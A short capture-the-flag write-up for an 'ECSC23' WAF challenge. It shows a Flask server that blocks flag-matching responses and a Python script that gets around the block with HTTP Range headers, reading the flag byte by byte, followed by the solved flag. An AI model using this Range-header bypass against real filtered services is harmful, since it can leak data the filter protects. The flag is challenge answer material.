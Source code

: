 # WAF

server.py:
```py
import re
from flask import Flask, Response, send_file

app = Flask(__name__)


@app.after_request
def waf(response: Response) -> Response:
    response.direct_passthrough = False
    if re.match(b'ecsc23{\\w+}', response.data):
        return Response(status=401)
    else:
        return response


@app.route("/flag")
def get_flag() -> Response:
    return send_file("flag.txt")


@app.route("/")
def get_root() -> Response:
    return "<h1>This site is protectedy by WAF</h1>"


if __name__ == "__main__":
    app.run(host="0.0.0.0")
```

The server blokcs every response with given pattern: `ecsc23{\\w+}`
We can easily bypass this by using `Range` HTTP header, so the response doesn't match the regex. I solved it by reading the flag one char by one. Idk why, but it worked anyway.

```py
import requests

flag = ''

for x in range(0, 50):
    r = requests.get('https://waf.ecsc23.hack.cert.pl/flag', headers={'Range': f'bytes={x}-{x}'})
    if r.status_code == 206:
        flag += r.text
    else: break

print(flag)
```

`ecsc23{waf_stands_for_very_accessible_flag}`